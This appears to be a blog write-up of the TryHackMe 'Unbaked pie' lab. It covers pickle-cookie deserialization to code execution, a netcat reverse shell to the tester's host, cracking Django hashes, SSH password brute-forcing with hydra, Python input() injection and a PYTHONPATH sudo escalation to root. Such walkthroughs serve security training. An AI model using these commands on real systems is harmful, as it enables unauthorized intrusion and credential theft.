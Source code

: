 ```yaml
---
layout: post
title:  "TryHackMe Unbaked pie writeup"
date:   2020-12-08 12:59:36 +0200
categories: writeup tryhackme
---
```


This is a writeup for TryHackMe room [Unbaked pie](https://tryhackme.com/room/unbakedpie). 

Start with nmap scan. Target seems to be blocking ping probes so let’s disable host discovery.

```bash=
nmap -Pn 10.10.106.195            
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-08 20:45 EET
Nmap scan report for 10.10.106.195
Host is up (0.053s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
5003/tcp open  filemaker
Nmap done: 1 IP address (1 host up) scanned in 69.44 seconds
```
Looking at the website at the single open port there are tasty recipes that hint to Python Pickle deserialization vulnerability.

![]({{ site.url }}/assets/unbakedpie/pie.png)
Enumerating the site I can confirm that there is a Pickled cookie in the search functionality:

![]({{ site.url }}/assets/unbakedpie/cookie.png)

I test that exploiting this works and yes. I can create files in the local file system and serve them over HTTP. I then create a Python exploit to easily run commands on the server:

{% gist 024c29c2b7128d23e7f9487aa7df5bf7 %}

After looking for flags etc. for a while I decide that it’s time for a reverse shell. I set up a local listener with nc and run the exploit:

```bash=
python3 exploit.py http://10.10.106.195:5003 "/bin/nc -e /bin/sh 10.8.108.247 4444 "
```
Enumerating the host we can dump Django credentials from /home/site/db.sqlite3:
![]({{ site.url }}/assets/unbakedpie/hashes.png)

```bash=
hashcat -m 10000 hashes /usr/share/wordlists/rockyou.txt
```

Since Django hashes are pbkdf2 hashed it’s gonna be a while so I keep enumerating while I wait. Another interesting finding in /root/.bash_history shows that someone has been making SSH connections as ramsey from this box:

```bash
ssh ramsey@172.17.0.1
ssh ramsey@172.17.0.1
ssh ramsey@172.17.0.1
```

I upload a statically linked version of nmap and execute a scan. Looking at the probable docker host there is only SSH port open:

```
nmap 172.17.0.1
starting Nmap 6.49BETA1 ( http://nmap.org ) at 2020-12-08 18:23 UTC
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up (0.000011s latency).
Not shown: 1206 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:99:95:76:1E (Unknown)
Nmap done: 1 IP address (1 host up) scanned in 1.45 seconds
```
Let’s connect to that using ramsey’s password. But oh no, evil admin has removed ssh and there is no Internet connectivity! Not to worry, set up a local proxy server (I used Burp suite) and configure apt to use proxy:

```
echo 'Acquire::http::Proxy "http://10.8.108.247:8080/";' > /etc/apt/apt.conf.d/proxy.conf
```
Then install openssh back:

```
apt --fix-broken install
apt install openssh-client
```
No luck with hashcat so far so what if I try hydra from the docker guest? I install it with apt-get and also download rockyou.txt. I could have set up a tunnel for less noisy approach but maybe next time.

```
hydra -l ramsey -P rockyou.txt 172.17.0.1 ssh
 hydra -l ramsey -P rockyou.txt 172.17.0.1 ssh
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-08 19:26:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.1:22/
[22][ssh] host: 172.17.0.1   login: ramsey   password: __REDACTED__
1 of 1 target successfully completed, 1 valid password found
```
# Enumerating Docker host

We know the password so let’s start with sudo:

```bash=
sudo -l
[sudo] password for ramsey:
Matching Defaults entries for ramsey on unbaked:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User ramsey may run the following commands on unbaked:
    (oliver) /usr/bin/python /home/ramsey/vuln.py
```

Looking at the vuln.py code there seems to a vulnerability in using input() so let’s abuse that and land a shell as oliver:

```bash=
Enter Options >> __import__(‘os’).system(‘/bin/bash’)
$ id
uid=1002(oliver) gid=1002(oliver) groups=1002(oliver),1003(sysadmin)
```

the difference beween ramsey and oliver seems to be the group membership. Let’s figure out what sysadmins can do:

```bash
find / -group sysadmin 2>/dev/null
/opt/dockerScript.py
cat dockerScript.py
import docker
# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
```

ok cool. Let’s check sudo -l even though we don’t have the password:

```bash=
sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
```

When we control the environment, we can set the Python path and use it to exploit by loading Docker.py (create to /tmp):

```python=
import os
os.system("/bin/bash")
```
Now run the script with PYTHONPATH set:
```bash=
sudo PYTHONPATH=/tmp /usr/bin/python /opt/dockerScript.py
```
And BOOM we are root! Thanks for the great box. Lot’s of fun Python stuff to abuse.
